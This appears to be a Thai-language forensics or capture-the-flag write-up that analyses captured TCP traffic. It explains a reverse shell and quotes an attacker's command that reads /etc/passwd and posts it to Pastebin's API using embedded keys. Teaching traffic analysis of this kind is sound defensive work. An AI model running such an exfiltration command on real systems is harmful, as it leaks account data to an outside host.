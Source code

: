 <img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/0c28492f-d191-48e9-b907-852eed99e3ab" />
```
Source: 10.10.99.42
Destination: 10.10.20.13
Protocol: TCP
```
หมายความว่า

- เครื่อง 10.10.99.42 กำลังส่งข้อมูลไปยัง 10.10.20.13

- โปรโตคอลที่ใช้คือ TCP

- ภายใน TCP stream มีข้อมูล ASCII ที่เป็น command line ของ Linux

ดังนั้น คำสั่ง Linux ถูกส่งผ่านการเชื่อมต่อ TCP ระหว่างสอง IP นี้

1.3 สิ่งที่บอกว่าเป็นการโอนย้ายคำสั่ง

- มี prompt (root@web-m1:/tmp/.h4x#) แสดงว่าเป็น shell ของ Linux จริง

- มีการพิมพ์คำสั่ง (ping, cat, curl) และผลลัพธ์ หมายถึงคำสั่งถูกส่งและตอบกลับแบบ interactive (interactive แปลว่า ซึ่งมีการสื่อสารระหว่างกัน, สื่อเชิงโต้ตอบ)

- ทั้งหมดอยู่ใน TCP Stream บ่งบอกว่าคำสั่งถูกส่งผ่าน network connection ไม่ใช่แค่ภายในเครื่อง

สรุปสิ่งที่เกิดขึ้น ถ้าตอบแบบยาว ๆ "มีการเปิดเชลล์ระยะไกลจากเครื่องเป้าหมายไปยังเครื่องของผู้โจมตีผ่าน TCP stream" ถ้าตอบแบบสั้น ๆ "มีการรันคำสั่ง Linux ข้ามเครื่อง ผ่านเครือข่าย TCP"

ประเด็นที่ 2

Q: ถูกส่งเป็นคำขอโพสต์คือยังไง

HTTP POST เป็นชนิดของคำขอ (HTTP request) เพื่อส่งข้อมูลจาก client → server
```
pastetext=$(cat /etc/passwd) ; curl -d "api_user_key=ed67c1aec48d47270dd002d0baa29814&api_dev_key=bb8aa307a7d4b6073976149b65977bae&api_paste_private=2&api_option=paste&api_paste_code=${pastetext}" 'https://pastebin.com/api/api_post.php'
```
```
curl -d " ... api_paste_code=${pastetext}" 'https://pastebin.com/api/api_post.php'
```
นี่คือการส่งข้อมูลผ่าน HTTP POST ไปที่ pastebin (ตัว body คือเนื้อหา pastetext ซึ่งเป็น cat /etc/passwd)
